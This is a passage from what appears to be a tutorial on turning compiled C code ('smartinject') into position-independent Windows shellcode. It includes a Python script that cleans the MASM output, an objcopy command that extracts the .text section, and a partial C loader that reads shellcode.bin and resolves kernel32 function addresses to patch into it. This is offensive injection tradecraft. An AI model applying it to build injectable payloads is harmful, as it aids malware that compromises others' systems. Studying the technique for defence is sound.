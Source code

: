     with open("smartinject.asm","r") as f:
        for line in f:
            #Fix all of the stuff to make a valid shellcode
            if("pdata\tSEGMENT" in line):
                inBadSegment = True
                continue
            if("xdata\tSEGMENT" in line):
                inBadSegment = True
                continue
            if(inBadSegment == True):
                if("pdata\tENDS" in line or "xdata\tENDS" in line):
                    inBadSegment = False
                continue
            if("_TEXT\tSEGMENT" in line and insertedAlign == False):
                asm_file.append(line)
                asm_file.append(align_rsp)
                insertedAlign = True
                continue
            if("gs:96" in line):
                asm_file.append(line.replace("gs:96","gs:[96]"))
                continue
            if("INCLUDELIB LIBCMT" in line):
                continue
            if("INCLUDELIB OLDNAMES" in line):
                continue
            if("OFFSET FLAT:" in line):
                asm_file.append(line.replace("OFFSET FLAT:", ""))
                continue
            
            asm_file.append(line)
            
    with open("smartinject_modified.asm","w") as pic:
        for line in asm_file:
            pic.write(line)
    ```
    

And finally you’ll need to extract the .text section from the compiled executable. You can do that with the following objcopy command.

```bash
objcopy -O binary --only-section=.text smartinject_modified.exe shellcode.bin
```

Writing the pointers into our shellcode is relatively easy. Below is a snippet of code to do that.

```c
#include <Windows.h>
#include <stdio.h>

void main() {

    //Get addresses to write into the shellcode
    HMODULE hKernel32 = GetModuleHandleA("kernel32.dll");
    LPVOID pGetModuleHandleA = GetProcAddress(hKernel32, "GetModuleHandleA");
    LPVOID pGetProcAddress = GetProcAddress(hKernel32, "GetProcAddress");
   
    //Get our shellcode buffer
    HANDLE hShellcode = CreateFileA("C:\\Users\\josh\\source\\repos\\shellcode\\shellcode\\shellcode.bin", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD shellcodeSize = GetFileSize(hShellcode, NULL);
    unsigned char* shellcodeBuffer = (unsigned char*)malloc(shellcodeSize);
    DWORD dwBytesRead;
    BOOL succ = ReadFile(hShellcode, shellcodeBuffer, shellcodeSize, &dwBytesRead, NULL);

    LPVOID GetModuleHandlePtr = NULL;
    LPVOID GetProcAddressPtr = NULL;
```